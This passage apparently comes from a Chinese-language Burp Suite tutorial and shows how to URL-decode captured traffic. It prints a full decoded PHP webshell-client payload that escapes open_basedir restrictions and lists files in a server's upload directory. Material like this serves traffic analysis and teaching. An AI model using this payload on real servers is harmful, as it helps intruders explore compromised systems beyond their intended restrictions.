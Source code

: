 ![复制编码](./../../../images/Burp%20Suite/%E5%A4%8D%E5%88%B6%E7%BC%96%E7%A0%81.png)

粘贴到编码工具中用 URL 解码

![粘贴到编码工具中用 URL 解码](./../../../images/Burp%20Suite/%E7%B2%98%E8%B4%B4%E5%88%B0%E7%BC%96%E7%A0%81%E5%B7%A5%E5%85%B7%E4%B8%AD%E7%94%A8%20URL%20%E8%A7%A3%E7%A0%81.png)

复制解码后的文本到文本编辑器查看

```php
@ini_set("display_errors", "0");@set_time_limit(0);$opdir=@ini_get("open_basedir");if($opdir) {$ocwd=dirname($_SERVER["SCRIPT_FILENAME"]);$oparr=preg_split(base64_decode("Lzt8Oi8="),$opdir);@array_push($oparr,$ocwd,sys_get_temp_dir());foreach($oparr as $item) {if(!@is_writable($item)){continue;};$tmdir=$item."/.70f94b11fb2c";@mkdir($tmdir);if(!@file_exists($tmdir)){continue;}$tmdir=realpath($tmdir);@chdir($tmdir);@ini_set("open_basedir", "..");$cntarr=@preg_split("/\\\\|\//",$tmdir);for($i=0;$i<sizeof($cntarr);$i++){@chdir("..");};@ini_set("open_basedir","/");@rmdir($tmdir);break;};};;function asenc($out){return $out;};function asoutput(){$output=ob_get_contents();ob_end_clean();echo "4435"."fedf3";echo @asenc($output);echo "aac1b5"."3e6fee";}ob_start();try{$D=base64_decode(substr($_POST["v8255f661bbec7"],2));$F=@opendir($D);if($F==NULL){echo("ERROR:// Path Not Found Or No Permission!");}else{$M=NULL;$L=NULL;while($N=@readdir($F)){$P=$D.$N;$T=@date("Y-m-d H:i:s",@filemtime($P));@$E=substr(base_convert(@fileperms($P),10,8),-4);$R="	".$T."	".@filesize($P)."	".$E."
";if(@is_dir($P))$M.=$N."/".$R;else $L.=$N.$R;}echo $M.$L;@closedir($F);};}catch(Exception $e){echo "ERROR://".$e->getMessage();};asoutput();die();&v8255f661bbec7=CsL3Zhci93d3cvaHRtbC91cGxvYWQv
```
